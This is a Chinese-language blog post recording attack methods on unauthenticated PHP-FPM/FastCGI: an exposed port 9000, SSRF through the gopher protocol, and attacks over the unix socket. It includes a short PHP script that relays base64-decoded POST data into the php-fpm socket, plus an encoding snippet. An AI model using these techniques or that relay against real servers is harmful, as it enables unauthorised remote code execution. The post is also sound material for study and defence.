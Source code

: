 ```yaml
---
layout:     post
title:      PHP-FPM Fastcgi 未授权访问漏洞
subtitle:   简单记录一下几种攻击方法
date:       2020-06-13
author:     BY Diego
header-img: /img/wenzhang/PHP-FPM.jpg
catalog: true
tags:
    - 命令注入
    - PHP
---
```


# 一、PHP-FPM 两种模式

**php-fpm 有两种模式，一种是基于tcp 另一种是基于unix套接字，tcp模式会启动9000端口 而unix套接字模式是基于fpm.sock文件**


**tcp模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvbEYn.png](https://s1.ax1x.com/2020/06/13/tvbEYn.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvbAFs.png](https://s1.ax1x.com/2020/06/13/tvbAFs.png)

效果如下会开启9000端口
![tvb6pt.png](https://s1.ax1x.com/2020/06/13/tvb6pt.png)
**unix模式下配置文件**

fpm 配置文件
`/etc/php/7.4/fpm/pool.d/www.conf`
![tvH1RP.png](https://s1.ax1x.com/2020/06/13/tvH1RP.png)

nginx 配置文件
`/etc/nginx/sites-enabled/default`
![tvHlGt.png](https://s1.ax1x.com/2020/06/13/tvHlGt.png)

![tvqzqS.png](https://s1.ax1x.com/2020/06/13/tvqzqS.png)

# 二、攻击

具体原理参考其他文章，个人简单记录攻击方法

## ① Fastcgi暴露在外网

**tcp模式下的9000端口暴露外网**

直接利用poc 进行攻击，前提知道某php脚本的绝对路径，一般有php环境的都会自带php文件，根据实际选一个
![tjc98s.png](https://s1.ax1x.com/2020/06/13/tjc98s.png)

效果如下
![tjcPvq.png](https://s1.ax1x.com/2020/06/13/tjcPvq.png)


## ② Fastcgi在内网

**tcp模式下的9000端口在内网**

利用**gopher协议** 进行ssrf

可以本地先搭建个环境，直接用vulhub也行，用上面的脚本进行流量抓取
![tjcC2n.png](https://s1.ax1x.com/2020/06/13/tjcC2n.png)
跟踪一下流
![tjcpCj.png](https://s1.ax1x.com/2020/06/13/tjcpCj.png)
把发送数据转化成原始数据
![tj6z5Q.png](https://s1.ax1x.com/2020/06/13/tj6z5Q.png)

url编一下码
```python
data = ""
a = [ data[x:x+2] for x in range(0,len(data),2) ]
"%".join(a)
```
![tjcFK0.png](https://s1.ax1x.com/2020/06/13/tjcFK0.png)

然后利用curl 模拟一下
![tjW8ld.png](https://s1.ax1x.com/2020/06/13/tjW8ld.png)

或者直接利用工具自动生成payload
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)

![tjW3SH.png](https://s1.ax1x.com/2020/06/13/tjW3SH.png)


## ③ unix套接字攻击

使用的是unix套接字，因此不会开放9000端口，但同样需要存在php文件

需要在服务器端执行如下代码
```php
<?php
$sock=stream_socket_client('unix:///run/php/php7.3-fpm.sock');
fputs($sock, base64_decode($_POST['A']));
var_dump(fread($sock, 4096));
?>
```
可以通过工具生成，然后截取`_`以后的部分，url解码之后转base64
![tjWG6A.png](https://s1.ax1x.com/2020/06/13/tjWG6A.png)


也可跟ssrf相同方法 获得原始数据直接转base64

![tvXBKP.png](https://s1.ax1x.com/2020/06/13/tvXBKP.png)

# 三、参考

[PHP 连接方式&攻击PHP-FPM&*CTF echohub WP](https://evoa.me/index.php/archives/52/#toc-%E6%94%BB%E5%87%BB%E5%A5%97%E6%8E%A5%E5%AD%97)

[浅析php-fpm的攻击方式](https://xz.aliyun.com/t/5598#toc-8)

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)
